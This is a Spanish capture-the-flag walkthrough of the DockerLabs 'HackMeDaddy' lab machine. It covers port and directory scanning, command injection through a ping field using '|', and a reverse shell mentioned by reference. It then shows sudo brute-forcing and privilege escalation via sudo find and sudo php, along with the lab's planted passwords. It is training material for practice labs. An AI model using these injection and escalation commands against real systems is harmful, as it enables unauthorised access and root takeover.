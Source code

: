 Hoy maquina HackMeDaddy de [DockerLabs](https://dockerlabs.es)

Autor: [d1se0](https://github.com/D1se0)

Dificultad: Difícil

![Dock](./imagenes/Dock.png)

# RECONOCIMIENTO

Comenzamos haciendo un escaneo de nmap:

```css
sudo nmap -p- 172.17.0.2 -sSVC --min-rate 5000 -n -Pn --open -oN escaneo.txt
```

```ruby
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-21 19:21 -03
Nmap scan report for 172.17.0.2
Host is up (0.000015s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 05:48:9d:f6:29:e1:dd:c4:f6:18:87:ff:13:15:5a:80 (ECDSA)
|_  256 0a:3d:0d:c3:fe:4e:57:8a:de:1f:5f:3c:8e:92:e9:5b (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: HackMeDaddy - Hacking \xC3\x89tico
| http-robots.txt: 3 disallowed entries 
|_/FLAG.txt /joomla/* /secret/
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.87 seconds
```

Como vemos no hay nada interesante, solo esta abierto el puerto 22 y 80 pero nada interesante.

### PUERTO 80:

![80](./imagenes/80.png)

En un principio no hay nada interesante, por lo que haremos un poco de fuzzing con gobuster:

```css
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt,sh,py,js,elf
```

```ruby
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt,sh,py,js,elf
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 7036]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/info.txt             (Status: 200) [Size: 123]
/flag.txt             (Status: 200) [Size: 455]
/robots.txt           (Status: 200) [Size: 691]
Progress: 135528 / 1764488 (7.68%)
[!] Keyboard interrupt detected, terminating.
===============================================================
Finished
===============================================================
```

Lo único interesante es el archivo `info.txt` que nos habla de un `README.txt` y de un usuario llamado "Eliot", por lo que si vemos un poco la página principal en un momento se ejecuta un comando que dice "cat README.txt" y tiene esto:

```ABAP
d05notfound exploit payload shell bruteforce vulnerability cipher zero-day phishing root port_scan firewall backdoor
```

Entonces probando si existe en el servidor vemos que si existe la carpeta `d05notfound` y contiene esto:
               ![d05notfound](./imagenes/d05notfound.png)

Pero lo único importante es que al final dice que se puede hacer un "ping". Ahora abriremos el burpsuite y capturamos la peticion al poner `-c 1 google.com`, damos click derecho a la petición y damos click izquierdo en donde dice "Send To Repeater". Ahora vamos al repeater y le damos al "send" y en response ponemos "Raw", ahora, si bajamos vemos que si se ejecuta el ping y nos muestra esto:

```css
PING google.com (172.217.172.78) 56(84) bytes of data.
64 bytes from eze06s01-in-f14.1e100.net (172.217.172.78): icmp_seq=1 ttl=114 time=102 ms

--- google.com ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 101.841/101.841/101.841/0.000 ms
```

como vemos, solo mando 1 porque pusimos "-c 1", por lo que tecnicamente ejecuta el comando directamente con "ping $INPUT", por lo que teniendo en cuenta eso podriamos intentar poner un ";" o "|" con otro comando como por ejemplo `ls -la`. Al presionar send vemos que el que funciona es "|" y nos devuelve esto:

```css
PING google.com (172.217.172.78) 56(84) bytes of data.
64 bytes from eze06s01-in-f14.1e100.net (172.217.172.78): icmp_seq=1 ttl=114 time=102 ms

--- google.com ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 102.012/102.012/102.012/0.000 ms
</pre><h2>Resultado del Comando:</h2><pre>total 12
drwxr-xr-x 1 root root   30 Aug 13 14:42 .
drwxr-xr-x 1 root root   94 Aug 13 14:52 ..
-rw-r--r-- 1 root root 8300 Aug 13 14:40 d05notfound.php
```

Vemos que podemos ejecutar comandos remotamente con el signo "|".

# INTRUSION

Ahora que podemos ejecutar comandos vamos a la pagina de [revshells](https://www.revshells.com) y buscamos el de `python3 #2`, escuchamos con netcat en el puerto que elegimos y presionamos el send. *Ya estamos dentro*

### TRATAMIENTO DE LA TTY

Para hacer el tratamiento de la tty y que no se nos cierre el terminal al persionar `ctrl+C` tenemos que ejecutar esta serie de comandos apenas entremos:

```css
script /dev/null -c bash #damos al enter y presionamos ctrl+Z
stty raw -echo;fg #damos al enter y ponemos reset xterm y enter
export TERM=xterm && export SHELL=bash
```

Una ve hecho esto ya no se nos cerrará la terminal.

# ESCALADA DE PRIVILEGIOS

## www-data

Siendo el usuario "www-data" iremos a la home y veremos que podemos leer la carpeta "e1i0t". Entramos y luego a la carpeta "documents"; estando ahi vemos dos archivos, `agenda.txt  agenda_passwords.txt`, que al parecer ambos son una wordlist. Ahora hacemos un wget dentro de la carpeta `/tmp` al script [Sudo_BruteForce](https://github.com/Maalfer/Sudo_BruteForce) y lo ejecutamos de la siguiente manera:

```css
/tmp/Linux-Su-Force.sh e1i0t /home/e1i0t/documents/agenda.txt
```

Esto nos encuentra la contraseña del usuario `e1i0t` y escalamos con `su e1i0t` o directamente nos conectamos por ssh.

## e1i0t

Ahora ejecutamos `sudo -l` y vemos que podemos ejecutar el binario `find` como el usuario "an0n1mat0", por lo que buscamos en [GTFOBins](https://gtfobins.github.io/) y vemos que podemos escalar con:

```css
sudo -u an0n1mat0 find . -exec /bin/bash \; -quit
```

## an0n1mat0

Siendo el usuario "an0n1mat0" listamos lo que hay en nuestro directorio y vemos una nota que dice lo siguiente:

```ruby
The boss told me that he will soon remove your privileges to be able to access your secret folder.
```

Si listamos en la raiz hay una carpeta llamada "secret", si la listamos vemos un archivo llamado "confidencial.txt" que tiene lo siguiente:

```css

There is a super secret file that no one but the boss should read, because there are some user passwords.

You have to move the passwords_users.txt file to a more secure place.
```

Dice que hay un archivo llamado "passwords_users.txt", por lo que lo buscamos con el siguiente comando:

```css
find / -name "passwords_users.txt" 2>/dev/null
```

```css
/usr/local/bin/passwords_users.txt
```

Ahora lo leemos con cat y nos dice esto:

```css
User passwords:

e1i0t:eliotelmejor
an0n1mat0:XXyanonymous
root:root

There are some outdated passwords, but I don't remember an0n1mat0's entire password, I know that where the two
```

Vamos a nuestra maquina local y ejecutamos lo siguiente:

```css
crunch 12 12 abcdefghijklmnopqrstuvwxyz -o wordlist -t @@yanonymous
```

nos lo copiamos y lo creamos como wordlist en la maquina victima y ahora ejecutamos el script que antes nos guardamos con wget de la siguiente manera:

```css
/tmp/Linux-Su-Force.sh an0n1mat0 /tmp/wordlist.txt
```

```css
Contraseña encontrada para el usuario an0n1mat0: XXXXXXXXX
```

Ahora que tenemos la contraseña de "an0n1mat0" podemos hacer un `sudo -l` y vemos que podemos ejecutar `php` como root, entonces simplemente ponemos:

```css
CMD="/bin/bash"
sudo php -r "system('$CMD');"
```

*y ya seriamos root*

![root](./imagenes/root.png)

Muy buena maquina, adiós...

Mi [instagram](https://instagram.com/macim0_)